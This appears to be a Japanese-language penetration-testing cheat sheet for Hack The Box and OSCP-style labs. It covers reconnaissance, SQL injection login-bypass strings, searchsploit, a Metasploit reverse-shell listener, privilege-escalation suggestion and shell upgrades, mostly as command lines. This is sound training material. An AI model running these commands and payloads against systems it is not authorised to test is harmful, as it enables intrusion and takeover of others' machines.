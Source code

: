 ## 偵察

### 通信相手のOSを知る
```bash
ping -c 1 <IP>
````

- ttlの時間で判別する
    - `ttl=64` → Linux OS/Mac OS
    - `ttl=128` → Windows OS
    - `ttl=255` → UNIX OS/ネットワーク機器

---

### nmapポートスキャン

```bash
sudo nmap -vvv -sCV -T4 -p0-65535 -Pn <IP>
```


---

### Webサーバ上のディレクトリ列挙

- 特定のページにアクセスできる隠しファイルやフォルダを見つけるのに最適

```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt
```

- **ワードファイル候補**

```
/usr/share/wordlists/dirb/big.txt
```

---

### サブドメインの列挙

```bash
gobuster dns -d <IP> -w /usr/share/wordlists/subdomains.txt
```

---

### VHOST（仮想ホスト）の列挙

```bash
gobuster vhost -u http://<IP> -w /usr/share/wordlists/vhosts.txt
```

---

### サイト脆弱性スキャン

```bash
nikto -h http://<IP>
```

### FTP匿名ログイン

```bash
ftp <IP>
```

- ユーザー名: `anonymous` または `ftp`
- パスワード: 空欄でEnter

---

## Webサイト情報取得
### ログインフォームがあったら
- webappの名前とバージョンが分かれば、デフォルトのユーザーネーム、パスワードを検索して、試す
- SQLインジェクション
	- ' OR 1=1;--
		- select * from users where username='' and password='' OR 1=1;
	- admin' OR 1=1;--
		- select * from users where username='admin' and password='' OR 1=1;
	- 詳しいことは
		- https://scrapbox.io/tadanomemo777/SQL%E3%82%A4%E3%83%B3%E3%82%B8%E3%82%A7%E3%82%AF%E3%82%B7%E3%83%A7%E3%83%B3

### Burp Suiteのブラウザで確認

### `curl`での確認

`md`ファイルなどはブラウザよりも`curl`での確認が見やすい。

```bash
curl -k <URL>
```

- `-k`：エラーを無視するオプション

### Webサイトのヘッダー情報の取得
CMS、JavaScriptライブラリ、ウェブサーバ、バージョン番号、ウェブフレームワークの取得

```bash
sudo whatweb http://<IP>
```


---

## 脆弱性の探索

### XSS (Cross Site Script)

HTBやOSCPではXSSの脆弱性を使うことはないため、真っ先に除外する。  
XSSは他のユーザーが引っかかる必要があるが、HTBやOSCPには対象が存在しない。

### Searchsploit
#### 複数の脆弱性を見つけたとき
 .txtよりもコードが書かれた脆弱性を選ぶべき
 迷った時は数字が後の方の方を選ぶべし
  より最新で、上手くいく可能性が高いから

#### PoCをダウンロードしたい時
 searchsploit -m <脆弱性の番号>
  - -m : ミラー

#### 使い方だけ出力したい
	 | grep -i usage <PoC file>


---

## Exploit

### 攻撃者側のサーバー内のファイルをやられ側に移す

 ```bash
 python -m http.server 80
 ```

  攻撃者サーバーを一時的にwebサーバーとする
  
### Metasploit 

#### リバースシェルリスナーの設置


```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
set ExitOnSession false
exploit -j -z
```




---

#### **セッション管理**

#### **セッション一覧表示**

```bash
sessions -l
```

#### **セッション接続・セッションに戻る**

```bash
sessions -i <セッション番号>
```

####  **セッション全終了**
se
```bash
sessions -K
```


---

#### **特権昇格の発見とエクスプロイト**

##### **local_exploit_suggester を使う**

Mesterpreterでユーザー権限でセッションが確立している時、**`local_exploit_suggester`** モジュールを使用して、ターゲットシステムに適した特権昇格エクスプロイトを提案させることができます。

```bash
use post/multi/recon/local_exploit_suggester
```

---
## Exploit後
### シェルアップデート
- linux
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
- windows
- 方法 : rlwrap は、コマンドラインの入力履歴や補完機能を提供するラッパープログラムです。これを nc と組み合わせることで、シェルの機能を強化できます。

```bash
rlwrap nc -lvnp <ポート番号>  # リスナー側 (攻撃者マシン)
```






